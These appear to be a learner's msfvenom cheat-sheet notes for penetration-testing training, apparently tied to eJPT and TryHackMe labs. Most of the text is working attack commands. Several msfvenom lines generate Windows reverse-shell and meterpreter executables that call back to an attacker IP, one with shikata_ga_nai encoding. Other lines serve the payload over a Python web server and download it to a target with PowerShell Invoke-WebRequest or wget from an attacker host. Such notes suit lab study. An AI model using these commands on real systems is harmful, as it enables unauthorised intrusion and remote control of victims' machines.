 Standalone payload generator

Cheatsheet: https://github.com/xonoxitron/INE-eJPT-Certification-Exam-Notes-Cheat-Sheet/blob/main/README.md#msfvenom-shells

```
msfvenom -p windows/shell_reverse_tcp LHOST=<Your_Attacker_IP> LPORT=<Your_Port> -f exe > shell.exe
```

msfvenom to create a Windows meterpreter reverse shell using the following payload:
``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[vpnIP] LPORT=[LPORT] -f exe > reverse.exe
```

another basic Windows Reverse shell. Not sure what x86/shikata_ga_nai is. used in TryHackMe Steel Mountain Room
``` bash 
msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```


### Usage:

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f exe > reverse.exe
```

We start the python server to serve the exploit on the machine

```shell
python3 -m http.server <PORT>
```

Depending if the target is windows or linux

Windows:
``` powershell
powershell Invoke-WebRequest -Uri http://<Attack_ip>:<PORT>/reverse.exe -Outfile powerview.ps1
```
linux 
``` bash
wget http://example:<portnumber>/file.txt
```

#### **MSF Staged and Non Staged Payload**

```shell
# MSF STAGED Payload
windows/x64/meterpreter/reverse_tcp

# MSF NON-STAGED Payload
windows/x64/meterpreter_reverse_https
```

powershell Invoke-WebRequest -Uri http://10.10.14.55:80/powerview.ps1 -Outfile powerview.ps1